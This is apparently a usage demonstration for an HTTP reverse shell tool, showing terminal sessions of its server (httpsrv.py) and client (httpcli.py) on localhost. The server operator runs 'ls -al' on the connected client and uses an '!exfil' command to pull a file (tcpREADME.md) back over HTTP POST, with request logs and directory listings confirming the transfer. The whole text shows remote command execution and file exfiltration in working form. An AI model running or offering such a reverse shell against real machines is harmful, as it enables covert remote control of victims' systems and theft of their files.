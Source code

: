 # ./httpsrv.py localhost 8080 -v


    HTTP Reverse Shell - Server
    [Version 0.02.102901] 
    @a7kemc73


[-] Listening for connection on: localhost:8080
Shell>> ls -al
127.0.0.1 - - [30/Oct/2017 01:31:22] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [30/Oct/2017 01:31:22] "POST / HTTP/1.1" 200 -
total 27
drwxrwx--- 1 root vboxsf 4096 Oct 30 01:28 .
drwxrwx--- 1 root vboxsf    0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf 4096 Oct 29 20:41 .git
-rwxrwx--- 1 root vboxsf 2592 Oct 30 01:30 httpcli.py
-rwxrwx--- 1 root vboxsf    0 Oct 29 17:52 httpREADME.md
-rwxrwx--- 1 root vboxsf 1730 Oct 30 01:30 httpsrv.py
drwxrwx--- 1 root vboxsf 4096 Oct 29 23:40 lib
-rwxrwx--- 1 root vboxsf 1934 Oct 29 18:06 tcpcli.py
-rwxrwx--- 1 root vboxsf 2162 Oct 29 17:44 tcpREADME.md
-rwxrwx--- 1 root vboxsf 2268 Oct 29 18:06 tcpsrv.py

127.0.0.1 - - [30/Oct/2017 01:31:22] "POST / HTTP/1.1" 200 -

Shell>> !exfil tcpREADME.md
127.0.0.1 - - [30/Oct/2017 01:31:51] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [30/Oct/2017 01:31:51] "POST /exfil HTTP/1.1" 200 -
Shell>> ls -al
127.0.0.1 - - [30/Oct/2017 01:32:30] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [30/Oct/2017 01:32:30] "POST / HTTP/1.1" 200 -
total 27
drwxrwx--- 1 root vboxsf 4096 Oct 30 01:31 .
drwxrwx--- 1 root vboxsf    0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf 4096 Oct 29 20:41 .git
-rwxrwx--- 1 root vboxsf 2592 Oct 30 01:30 httpcli.py
-rwxrwx--- 1 root vboxsf    0 Oct 29 17:52 httpREADME.md
-rwxrwx--- 1 root vboxsf 1730 Oct 30 01:30 httpsrv.py
drwxrwx--- 1 root vboxsf 4096 Oct 29 23:40 lib
-rwxrwx--- 1 root vboxsf 1934 Oct 29 18:06 tcpcli.py
-rwxrwx--- 1 root vboxsf 2162 Oct 29 17:44 tcpREADME.md
-rwxrwx--- 1 root vboxsf 2162 Oct 30 01:31 tcpREADME.md.exfil
-rwxrwx--- 1 root vboxsf 2268 Oct 29 18:06 tcpsrv.py

127.0.0.1 - - [30/Oct/2017 01:32:30] "POST / HTTP/1.1" 200 -

Shell>> !quit
127.0.0.1 - - [30/Oct/2017 01:32:38] "GET / HTTP/1.1" 200 -






# ./httpcli.py localhost 8080 -v


    HTTP Reverse Shell - Client
    [Version 0.02.102901] 
    @a7kemc73


[-] cmd:
ls -al
[-] stdout:
total 27
drwxrwx--- 1 root vboxsf 4096 Oct 30 01:28 .
drwxrwx--- 1 root vboxsf    0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf 4096 Oct 29 20:41 .git
-rwxrwx--- 1 root vboxsf 2592 Oct 30 01:30 httpcli.py
-rwxrwx--- 1 root vboxsf    0 Oct 29 17:52 httpREADME.md
-rwxrwx--- 1 root vboxsf 1730 Oct 30 01:30 httpsrv.py
drwxrwx--- 1 root vboxsf 4096 Oct 29 23:40 lib
-rwxrwx--- 1 root vboxsf 1934 Oct 29 18:06 tcpcli.py
-rwxrwx--- 1 root vboxsf 2162 Oct 29 17:44 tcpREADME.md
-rwxrwx--- 1 root vboxsf 2268 Oct 29 18:06 tcpsrv.py

[-] stderrRead:

[-] cmd:
!exfil tcpREADME.md
[-] cmd:
ls -al
[-] stdout:
total 27
drwxrwx--- 1 root vboxsf 4096 Oct 30 01:31 .
drwxrwx--- 1 root vboxsf    0 Oct 26 22:13 ..
drwxrwx--- 1 root vboxsf 4096 Oct 29 20:41 .git
-rwxrwx--- 1 root vboxsf 2592 Oct 30 01:30 httpcli.py
-rwxrwx--- 1 root vboxsf    0 Oct 29 17:52 httpREADME.md
-rwxrwx--- 1 root vboxsf 1730 Oct 30 01:30 httpsrv.py
drwxrwx--- 1 root vboxsf 4096 Oct 29 23:40 lib
-rwxrwx--- 1 root vboxsf 1934 Oct 29 18:06 tcpcli.py
-rwxrwx--- 1 root vboxsf 2162 Oct 29 17:44 tcpREADME.md
-rwxrwx--- 1 root vboxsf 2162 Oct 30 01:31 tcpREADME.md.exfil
-rwxrwx--- 1 root vboxsf 2268 Oct 29 18:06 tcpsrv.py

[-] stderrRead:

[-] cmd:
!quit
